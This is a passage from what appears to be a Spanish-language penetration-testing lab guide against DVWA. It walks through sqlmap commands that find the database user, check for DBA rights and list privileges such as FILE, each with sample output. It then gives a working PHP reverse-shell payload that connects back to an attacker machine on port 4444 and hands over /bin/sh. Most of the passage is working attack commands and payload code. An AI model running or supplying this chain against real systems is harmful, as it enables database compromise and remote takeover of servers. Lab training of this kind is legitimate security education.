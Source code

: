 🔹 **Donde**:
- `--current-user`: Le pide a SQLmap que identifique al usuario **de la base de datos** con el que se ejecutan las consultas

**RESULTADO ESPERADO**
👉**Algo como**
>[INFO] fetching current user
>current user: 'root@localhost'


**🟣1.2 ¿Somos admin?**
```bash
sqlmap -u "http://10.0.2.X/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=43f0xxx; security=low" --is-dba
```

O bien,
```bash
sqlmap -r request.txt --is-dba
```

🔹 **Donde**:
- `--is-dba`: Pregunta directamente si el **usuario actual de la base de datos** tiene el privilegio **DBA (Administrador de Base de Datos)**, en otras palabras: **¿tenemos control total sobre el motor de la base de datos?**

**RESULTADO ESPERADO**
👉**Algo como**
>[INFO] fetching current user
>current user is DBA: True


**🟣1.3 Lista de privilegios**
```bash
sqlmap -u "http://10.0.2.X/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=43f0xxx; security=low" --privileges
```

O bien,
```bash
sqlmap -r request.txt --privileges
```

🔹 **Donde**:
- `--privileges`: Le pide a SQLmap que identifique los **privilegios del usuario DE LA BASE DE DATOS en la base de datos**

**RESULTADO ESPERADO**
👉**Lista de usuarios de la base de datos** junto con los respectivos permisos. Nos interesa que para el usuario que vimos en el punto 1.1 veamos el privilegio `FILE`. El privilegio `FILE` de MySQL permite **leer y escribir archivos** directamente en el sistema Linux, dentro de los **límites** de los permisos del usuario `mysql` que ejecuta el servicio.

# 🐚Reverse shell
## 1. Preparar payload (la reverse shell)
Crear un PHP en la Kali:
```php
<?php
set_time_limit (0);
$ip = '10.0.2.X';  // IP de la Kali
$port = 4444; // Puerto donde escuchará la Kali
$sock = fsockopen($ip, $port); // Crea un socket con la IP y puerto especificados
$proc = proc_open('/bin/sh', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); //Abre el socket
?>
```
Guardar como `shell.php`.
